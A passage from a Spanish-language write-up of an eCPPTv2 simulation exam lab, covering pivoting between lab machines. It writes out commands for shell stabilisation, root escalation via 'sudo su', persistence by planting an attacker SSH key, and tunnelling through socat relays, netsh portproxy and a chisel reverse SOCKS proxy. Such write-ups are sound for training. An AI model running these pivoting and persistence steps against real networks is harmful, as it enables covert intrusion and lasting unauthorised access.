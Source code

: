 ```bash
proxychains ssh guest@40.40.40.6 bash

# Para obtener una shell interactiva:
script /dev/null -c bash
Z^ # Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 25 cols 128
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 115.png)

El usuario puede ejecutar comandos como cualquier usuario por lo que se puede usar “sudo su” para obtener una shell como root.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 116.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 117.png)

Ahora para crear persistencia, se insertará la llave SSH pública del atacante en el directorio “.ssh” como “authorized_keys”.

# Brainpan

## Reconocimiento

Como se vio anteriormente, la máquina Matrix tiene una interfaz en el segmento 50.50.50.0/24. Al hacer un descubrimiento de hosts por esta interfaz, se descubre una nueva IP: 50.50.50.5 que por su TTL indica que es una máquina Linux.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 118.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 119.png)

Para que la máquina atacante pueda ver este segmento de red, se hará el mismo proceso para armar el túnel con proxies.

Para hacer que la máquina Dumbledore redirija las conexiones entrantes a la nagini, se hará uso de netsh.

```bash
# En la máquina Aragog
./socat TCP-LISTEN:5050,fork TCP:192.168.0.104:1234

# En la máquina Nagini
./socat TCP-LISTEN:5051,fork TCP:20.20.20.4:5050

# En la máquina Dumbledore
netsh interface portproxy add v4tov4 listenport=5052 
listenaddress=0.0.0.0 connectport=5051 
connectaddress=30.30.30.6
	# Verificar conexiones
	netsh interface portproxy show all
	# Restablecer conexiones
	netsh interface portproxy reset

# En la máquina Matrix
./chisel client 40.40.40.6:5052 R:9996:socks
```

